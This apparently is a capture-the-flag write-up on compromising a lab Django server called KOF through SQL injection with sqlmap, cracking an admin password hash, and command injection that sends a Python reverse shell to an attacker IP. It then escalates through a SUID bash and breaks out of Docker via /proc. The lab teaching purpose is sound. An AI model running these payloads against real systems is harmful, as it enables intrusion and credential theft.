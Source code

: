 # KOF
![index image](../images/kof/index.png)

## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```
![ferox image](../images/kof/ferox.png)

Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.
![q parameter image](../images/kof/q_parameter.png)

When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
`python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level`

![sqlmap 1 image](../images/kof/sqlmap_q1.png)
![sqlmap 2 image](../images/kof/sqlmap_q2.png)

## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.
![panel image](../images/kof/panel1.png)

By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.
![panel image](../images/kof/panel2.png)

Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.
![panel image](../images/kof/panel3.png)

What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```
;export RHOST="10.0.10.235";export RPORT=1234;python-c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```
![shell request image](../images/kof/shell_request.png)
![shell image](../images/kof/shell.png)

To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
<br>
![id process image](../images/kof/id_proc.png)

With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.
<br>
![docker breakout image](../images/kof/doker_breakout.png)

Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)